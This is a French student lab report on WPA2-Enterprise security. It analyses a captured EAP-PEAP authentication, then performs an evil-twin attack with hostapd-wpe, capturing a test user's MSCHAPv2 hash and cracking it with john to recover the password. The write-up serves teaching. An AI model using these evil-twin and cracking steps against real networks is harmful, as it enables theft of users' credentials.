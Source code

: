 # Sécurité des réseaux sans fil - Laboratoire WPA2 Entreprise


Authors : Emmanuel Schmid and Théo Gallandat

## 1. Capture et analyse d’une authentification WPA Entreprise

### Comparer votre capture au processus d’authentification expliqué en classe


Identifier le canal utilisé par l’AP dont la puissance est la plus élevée.
Vous pouvez fairececi avec airodump-ng, par exemple


### Requête et réponse d’authentification système ouvert
![alt text](./images/Authen1.png)
![alt text](./images/Authen2.png)

### Requête et réponse d’association
![alt text](./images/Assoc1.png)
![alt text](./images/Assoc2.png)

### Sélection de la méthode d’authentification
![alt text](./images/methoAuthNego.png)
![alt text](./images/methodeAuthSelect.png)

### Phase d’initiation.
> Arrivez-vous à voir l’identité du client ?
![alt text](./images/Identity.png)

### Phase hello
![alt text](./images/phaseHello.png)
* Version TLS
* Suites cryptographiques et méthodes de compression proposées par le client et acceptées par l’AP
* Nonces
* Session ID

### Phase de transmission de certificats
![alt text](./images/PhaseCertif.png)
* Certificat serveur
![alt text](./images/ChangeCipherSpec.png)
* Change cipher spec

### Authentification interne et transmission de la clé WPA
(échange chiffré, vucomme « Application data »)
![alt text](./images/AppData.png)

### 4 way hadshake
![alt text](./images/handshakes.png)

### Questions

1. Quelle ou quelles méthode(s) d’authentification est/sont proposé(s) au client ? EAP-TLS, EAP-PEAP

2. Quelle méthode d’authentification est utilisée ? EAP-PEAP

3. Lors de l’échange de certificats entre le serveur d’authentification et le client :

  a. Le serveur envoie un certificat au client ?

  b. Le client envoie un certificat au serveur ?

  c. Les deux s’échangent des certificats ?

## 2. Attaque WPA Entreprise

4. Quelles modifications sont nécessaires dans la configuration de hostapd-wpe pour cette attaque ?

Extrait de `/etc/hostapd-wpe/hostapd-wpe.conf`
```
# Configuration file for hostapd-wpe

# Interface - Probably wlan0 for 802.11, eth0 for wired
interface=wlan0

# May have to change these depending on build location
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/certs/ca.pem
server_cert=/etc/hostapd-wpe/certs/server.pem
private_key=/etc/hostapd-wpe/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd-wpe/certs/dh

# 802.11 Options
ssid=hostapd-wpe
channel=1
```

On peut donc choisir l'interface, le ssid et le channel. Ici les modifications nécessaires ont été l'interface, et il faudrait aussi modifier le nom du ssid pour qu'il colle au nom du réseau dont on veut crée un `evil twin`. Ici de manière partique nous avons pas changer le ssid.

5. Quel type de hash doit-on indiquer à john pour craquer le handshake ?

Output de l'exécution de `hostapd-wpe`:
```
root@kali:~# hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
Configuration file: /etc/hostapd-wpe/hostapd-wpe.conf
Using interface wlan0 with hwaddr 00:c0:ca:8f:d9:e6 and ssid "hostapd-wpe"
wlan0: interface state UNINITIALIZED->ENABLED
wlan0: AP-ENABLED
wlan0: STA 94:65:2d:a4:34:92 IEEE 802.11: associated
wlan0: CTRL-EVENT-EAP-STARTED 94:65:2d:a4:34:92
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
wlan0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25


mschapv2: Thu May 17 07:04:03 2018
	 username:	getting_hacked
	 challenge:	7a:46:19:94:04:65:7c:58
	 response:	74:2e:95:a4:03:a3:44:26:28:62:44:f1:cb:45:b2:a1:97:e6:d5:9f:f3:70:a1:2c
	 jtr NETNTLM:	getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c
```

On lui donne un hahs de type `netntlm`, ici `getting_hacked:$NETNTLM$7a46199404657c58$742e95a403a34426286244f1cb45b2a197e6d59ff370a12c` :
```
john --format=netntlm hash.txt                                                                                 
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 128/128 AVX 12x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
mdpasse          (getting_hacked)
1g 0:00:02:14 DONE 3/3 (2018-05-17 18:13) 0.007448g/s 29557Kp/s 29557Kc/s 29557KC/s mdpatkh..mdpageo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Le mot de passe est donc : `mdpasse`

6. Quelles méthodes d’authentification sont supportées par hostapd-wpe ?
  * EAP-FAST/MSCHAPv2 (Phase 0)
  * PEAP/MSCHAPv2
  * EAP-TTLS/MSCHAPv2
  * EAP-TTLS/MSCHAP
  * EAP-TTLS/CHAP
  * EAP-TTLS/PA
